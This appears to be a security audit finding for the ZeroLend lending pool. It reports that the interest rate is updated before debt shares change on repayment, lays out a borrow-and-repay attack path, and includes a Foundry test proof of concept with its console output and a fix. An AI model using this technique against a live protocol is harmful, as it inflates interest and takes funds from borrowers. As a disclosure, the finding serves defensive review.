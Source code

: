 Joyous Cedar Tortoise

High

# Malicious attacker can inflate interest rate to steal funds from borrowers with no cost

## Summary
interest rate is updated before repayment of debt (it should be updated after repayment)

so a supplier who wants to collect more interest can borrow a lot and instantly repay, but interest rate stays high. then this high interest is accrued to the previous borrowers

## Vulnerability Detail
Within `BorrowLogic.executeRepay()`, the interest rate is update in [line 139](https://github.com/sherlock-audit/2024-06-new-scope/blob/a150815e6e6cae8b14a4ca5bb05d545f6a5e07ae/zerolend-one/contracts/core/pool/logic/BorrowLogic.sol#L139-L148)

However the key variable `cache.nextDebtShares` is updated in [line 152](https://github.com/sherlock-audit/2024-06-new-scope/blob/a150815e6e6cae8b14a4ca5bb05d545f6a5e07ae/zerolend-one/contracts/core/pool/logic/BorrowLogic.sol#L152)

This means that within `updateInterestRates`, the `cache.nextDebtShares` is equal to the debt shares BEFORE the repayment occured, which is higher than the current debt shares.

As a result, the interest rate is incorrectly updated

## Attack path
Supplier provides 100 tokens

Borrower borrows 1 token

Supply rate is now x%

Supplier borrows 99 tokens and repays them immediately

Supply rate is now y% where y >x (even though the borrowed amount was repaid)

## Impact
Malicious supplier steals from borrowers by incorrectly inflating the interest rate, with 0 risk and 0 cost.


## PoC
Add the following test to PoolBorrowTests.t.sol
<details><summary> Foundry test </summary>

```solidity
function testJ_increaseInterestRate() external {
        _mintAndApprove(alice, tokenA, 4000 ether, address(pool));
        _mintAndApprove(bob, tokenA, 4000 ether, address(pool));

        uint256 assetPrice = pool.getAssetPrice(address(tokenA));
        // Set the reserve factor to 1000 bp (10%)
        poolFactory.setReserveFactor(0.1e4);

        // Bob supplies
        vm.startPrank(bob);
        pool.supplySimple(address(tokenA), bob, 2000 ether, 0);

        // Alice borrows
        vm.startPrank(alice);
        pool.supplySimple(address(tokenA), alice, 20 ether, 0);
        pool.borrowSimple(address(tokenA), alice, 10 ether, 0);

        DataTypes.ReserveData memory data = pool.getReserveData(address(tokenA));
        console.log('liqRate before is %e', data.liquidityRate);
        console.log('borrowRate before is %e', data.borrowRate);
        vm.startPrank(bob);
        pool.borrowSimple(address(tokenA), bob, 1000 ether, 0);
        pool.repaySimple(address(tokenA), 1000 ether, 0);

        data = pool.getReserveData(address(tokenA));
        console.log('liqRate after is %e', data.liquidityRate);
        console.log('borrowRate after is %e', data.borrowRate);
    }
```

**Console output:**
```bash
  [PASS] testJ_increaseInterestRate() (gas: 674498)
  Logs:
	  liqRate before is 3.285034633650851918982e21
	  borrowRate before is 7.37307773330524541815883e23
	  
	  liqRate after is 1.4992413546624961391204379e25
	  borrowRate after is 4.9809778779766098351416091e25
```

</details>

## Code Snippet

## Tool used

Manual Review

## Recommendation
Ensure that reserve.updateInterestRates() occurs AFTER cache.nextDebtShares is updated. 
